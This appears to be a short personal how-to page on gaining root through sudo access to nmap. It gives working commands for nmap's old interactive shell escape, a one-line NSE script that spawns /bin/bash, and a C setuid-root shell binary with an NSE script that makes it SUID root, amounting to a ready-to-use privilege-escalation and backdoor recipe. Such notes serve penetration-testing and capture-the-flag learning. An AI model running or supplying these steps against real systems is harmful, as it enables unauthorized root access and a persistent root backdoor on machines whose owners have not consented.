 ```yaml
---
title: Privilege Escalation with Nmap
date_created: 2021-07-01
date_updated: 2021-07-01
metadata: howto
---
```

# Privilege Escalation with Nmap

If you have sudo rights to execute nmap, it's possible to escalate with nmap using two methods which would depend on the version installed on the machine. We can check the version of nmap using `nmap -v`.

## Nmap Interactive Mode

For nmap versions 2.02 to 5.21, an interactive mode can be used with nmap to execute shell commands. 

```bash
$ sudo nmap --interactive
> !sh
```

This should give you an elevated shell.

## Nmap Scripting Engine

Newer versions of nmap have removed the option to run in interactive mode. Instead, we can escalate privileges by executing a custom lua script using the nmap scripting feature. The `os.execute` function should provide us access to system commands.

Here's a quick and dirty script to get a root shell:

```bash
$ echo 'os.execute("/bin/bash")' > /tmp/rootme.nse
```

Execute the custom nse script with privileged nmap and you'll get root.

```bash
$ sudo nmap --script /tmp/rootme.nse
```

### Alternatives

Alternatively, you can use the nse script to set the SetUID and SetGID bits on another script which will provide a better shell experience.

Create a C script on your local machine and compile using `gcc rootme.c -o rootme`. I'd usually place this in the `/tmp/rootme` folder just to make things easier.

```C
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void){
	setuid(0); setgid(0); system("/bin/bash");
}
```

Transfer the file onto the target machine and create the following nse script. Again, run the nse script using `sudo nmap --script rootme.nse`.

```lua
author = "w0lfram1te"
categories = {"default", "safe"}

prerule = function()
	return "True"
end

action = function(prerule)
	os.execute("chown root.root /tmp/rootme")
	os.execute("chmod +sx /tmp/rootme")
	return "nmap priv escalation"
end
```